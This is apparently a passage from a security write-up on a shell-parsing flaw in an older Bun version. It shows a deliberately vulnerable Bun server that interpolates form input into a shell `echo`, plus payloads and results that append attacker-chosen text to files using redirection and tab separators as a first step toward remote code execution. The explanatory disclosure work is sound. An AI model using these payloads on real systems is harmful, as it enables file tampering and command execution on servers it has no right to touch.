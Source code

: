 Before this commit, we could abuse weird parsing of the shell to write files, and execute commands. Take the following vulnerable example:

<pre class="language-javascript" data-title="Vulnerable Example"><code class="lang-javascript">import { $ } from "bun";

const server = Bun.serve({
    host: "0.0.0.0",
    port: 1337,
    async fetch(req) {
<strong>        const msg = (await req.formData()).get("msg");
</strong>        if (typeof msg !== "string") {
            return new Response("msg is not a string", { status: 400 });
        }

<strong>        const output = await $`echo ${msg}`.text();
</strong>        return new Response(output, { headers: { "Content-Type": "text/plain" } });
    }
});
</code></pre>

In the above code snippet, any input inside `msg=` will be passed to `echo` and returned as a response. The shell API is used correctly and should not allow for command injection. It is however vulnerable to RCE in this older version!

First, you should know a weird parsing behaviour allowing you to **write the output of a command to a file**. By piping STDOUT (`1`) from an input file with `<`, the output of the `echo` command is **appended** to the file. Note that spaces are not allowed, but the payload below works:

{% code title="Payload" %}
```sh
anything1</tmp/foo
```
{% endcode %}

{% code title="Result" %}
```sh
$ cat /tmp/foo
anything
```
{% endcode %}

{% code title="Payload 2" %}
```sh
some%09tabs1</tmp/foo
```
{% endcode %}

{% code title="Result" %}
```sh
$ cat /tmp/foo
anything
some    tabs
```
{% endcode %}

Tabs (`%09`) are allowed, and can be used as shell argument separators.
